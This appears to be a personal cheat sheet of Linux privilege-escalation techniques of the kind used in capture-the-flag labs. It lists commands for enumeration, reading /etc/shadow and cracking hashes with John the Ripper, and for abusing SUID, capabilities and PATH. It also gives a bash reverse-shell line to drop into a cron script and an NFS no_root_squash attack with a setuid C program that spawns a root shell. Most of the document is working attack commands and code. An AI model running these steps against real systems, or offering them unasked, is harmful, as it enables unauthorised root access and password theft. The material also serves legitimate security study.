 ## Enumeration

**`hostname`** - name of the device, can be usefull <br>
**`uname -a`** - information about kernel system, search in exploit DB <br>
**`cat /proc/version`** - information about compilers (c++), kernel version <br>
**`ps`** - idk <br>
**`id`** - users privilege level<br>
**`sudo -l`** - what commands can user run with root privileges <br>
**`env`** - enviromental variables<br>
**`cat /etc/passwd`** - discoved users on the system <br>
**`cat /etc/shadow`** - hashes of passwords <br>
**`cat /etc/issue`** - what linux is running <br>
**`history`** - can show passwords and usernames or any info <br> <br>

### find commands
`find . -name flag1.txt 2>/dev/null` find the file named “flag1.txt” in the current directory <br>
`find /home -name flag1.txt` find the file names “flag1.txt” in the /home directory <br>
`find / -type d -name config` find the directory named config under “/” <br>
`find / -type f -perm 0777` find files with the 777 permissions (files readable, writable, and executablebyall users) <br>
`find / -perm a=x` find executable files <br>
`find /home -user frank` find all files for user “frank” under “/home” <br>
`find / -mtime 10` find files that were modified in the last 10 days <br>
`find / -atime 10` find files that were accessed in the last 10 day <br>
`find / -cmin -60` find files changed within the last hour (60 minutes) <br>
`find / -amin -60` find files accesses within the last hour (60 minutes) <br>
`find / -size 50M` find files with a 50 MB size <br>

## Kernel exploit

Check the kernel information and try to find existing exploits, be sure you understande them. [ExploitDB](https://www.exploit-db.com/)

## Sudo

Run `sudo -l` command. Than look at [GTFOBins](https://gtfobins.github.io/) and search for bypass ways.

## SUID
Commands with permmisions of the file owner <br>

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. <br>
Again you can compare compare executables on [GTFOBins+suid](https://gtfobins.github.io/#+suid).

It can be usefull to crack passwords using /etc/shadow and /etc/passwd files and then johnTheRipper  <br>
<pre>unshadow passwd.txt shadow.txt > passwords.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt passwords.txt
</pre>


## Capabilities

We can use the `getcap -r / 2>/dev/null` tool to list enabled capabilities. <br>
Search on [GTFOBins+capabilities](https://gtfobins.github.io/#+capabilities) <br>

## Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions. <br>

Any user can read the file keeping system-wide cron jobs under `/etc/crontab`

easy rev shell<br>
<pre>#!/bin/bash 

bash -i >& /dev/tcp/IP/PORT 0>&1</pre>

## PATH

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

search for writable files <br>
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 

exporting path<br>
`export PATH=/newPath:$PATH`

easy shell<br>
<pre>echo "/bin/bash" > file

chmod 777 file </pre>

## NFS

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

`cat /etc/exports`

![image](img/shell.png)

The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

### On atacker's machine

Start bash with sudo privilages<br>
`sudo su`

We can start enumerating mountable shares <br>
`showmount -e <ip>`

Make dir in /tmp and mount it
<pre>mkdir /tmp/attack

mount -o rw IP:/path /tmp/attack </pre>

nfs.c script for bash
<pre>
int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
</pre>

compile it and give it root bit flag
<pre>
gcc nfs.c -o nfs -w

chmod +s nfs
</pre>

Then you can run it on victim's machine